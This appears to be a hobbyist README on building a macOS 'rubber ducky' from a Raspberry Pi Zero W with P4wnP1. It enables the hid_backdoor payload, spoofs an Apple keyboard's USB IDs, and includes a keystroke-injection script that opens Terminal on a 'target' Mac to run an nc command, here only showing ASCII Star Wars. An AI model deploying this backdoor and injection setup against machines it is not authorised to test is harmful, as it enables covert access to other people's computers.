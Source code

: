 # Pi zero rubber ducky OSX

## What you will need: 
* Raspberry-pi-zero-w
* USB to ethernet adapter
* SSD card 
* Montor with HDMI 
* Pi-HDMI-Mini HDMI Adapter-Micro



## How to install

### Downlaod and Install Raspbian Lite
Download the [Stretch Lite image](https://www.raspberrypi.org/downloads/raspbian/) to your computer and 
write the image to the your SD card. I recommend using [etcher](https://www.balena.io/etcher/)


### Setting up P4wnP1
Connect your PI to a monitor, and use the USB to ethernet adapter to get internet connection. This can be done with wifi sharing, from your computer, but I found it easier to just connect it directly to your router. (Note that the Raspberry Pi zero w comes with two micro usb ports, where only the left can read data.) So make sure that the power comes from the right usb port and the USB to ethernet adapter is connected to the left usb port. 

Once connected you need to install P4wnP1 (This takes a good amount of time) 

```
sudo apt-get -y install git
cd /home/pi
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1
./install.sh
```
Once the installation is done, move to the next section. 

### Change payload: 
Now we need to change the payload to open a backdoor for us.
```
nano P4wnP1/setup.cfg
```

Change line 134 
from: 
```
PAYLOAD=network_only.txt
```

to:
```
#PAYLOAD=network_only.txt
```
Change line 146
from:
```
#PAYLOAD=hid_backdoor.txt # under (heavy) development
```

to:
```
PAYLOAD=hid_backdoor.txt # under (heavy) development
```

### Making it work for OSX
There are a few issues that needs to be resolved before we can make run our USB rubber ducky on OSX, if you are intrested in reading more about them you can do so [her](https://github.com/mame82/P4wnP1/issues/168).

First we have to change vendor and product id to Apple keyboard id in setup.cfg and in hid_keyboard.txt. This is important because otherwise the OSX will ask us to set up a keyboard everytime we plug in our rubber ducky. 

```
nano P4wnP1/setup.cfg
```
Change line 13 and 14 to: 
from:
```
USB_VID="0x1d6b"        # Vendor ID
USB_PID="0x0137"        # Product ID
```

to:
```
USB_VID="0x05ac"        # Vendor ID
USB_PID="0x024f"        # Product ID
```

There is also a second issue that is addressed in the issue post liked above, and that is that there is a command in boot_P4wnP1 that just hangs forever. A solution by the user @izeau that worked is to simply add a timeout to the line of code that causes this problem. 

```
nano  P4wnP1/boot/boot_P4wnP1
```
Change line 200

from: 
```
python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

to:
```
timeout 5 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

## Add your ducky scripts:
The ducky scripts that comes with P4wnP1 are not for OSX, and you will therefor have to write these yourself. There are some ducky script available online that you can check out [her](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads), however I would recommend to just add my simple ducky script first to make sure everything works. 

To add a ducky script simply do the following: 

```
cd P4wnP1/DuckyScripts
touch StartWars.duck
nano StartWars.duck
```
Add the following script: 
```
GUI SPACE
DELAY 500
STRING terminal
DELAY 500
ENTER
DELAY 1000
STRING nc towel.blinkenlights.nl 23
DELAY 500
ENTER
DELAY 500

```

## Select your starwars fan
Select your target mac and connect the Pi to it.(You only need to use the usb data port now, since the pi will get power from the target machine.). Once connected the PI will create a WIFI network named P4wnP1. Connect to the network with the password: "MaMe82-P4wnP1". Once connected to the network you can SSH into your pi: 

```
ssh pi@172.24.0.1 
```
Password for SSH is: raspberry 

First type:
```
SendDuckyScripts
```
this will enable us to see all the available duckyscripts and run them. In our case, we want to run the Star Wars script so simply type
```
StartWars.duck
```
Your target will now be shown Star Wars episode IV in ASCII. 

## Credit
**mame82** https://github.com/mame82/P4wnP1/blob/master/INSTALL.md

**Seytonic** https://www.youtube.com/watch?v=Pft7voW5ui8&t=413s
